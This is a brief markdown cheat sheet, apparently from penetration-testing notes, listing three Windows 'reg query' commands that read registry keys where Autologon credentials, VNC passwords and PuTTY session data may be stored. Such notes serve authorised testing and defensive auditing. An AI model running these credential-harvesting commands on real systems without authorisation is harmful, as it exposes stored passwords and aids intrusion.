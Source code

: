 # Possible locations for Creds

## Autologon:
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

## VNC:
reg query "HKCU\Software\ORL\WinVNC3\Password"

## Putty:
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"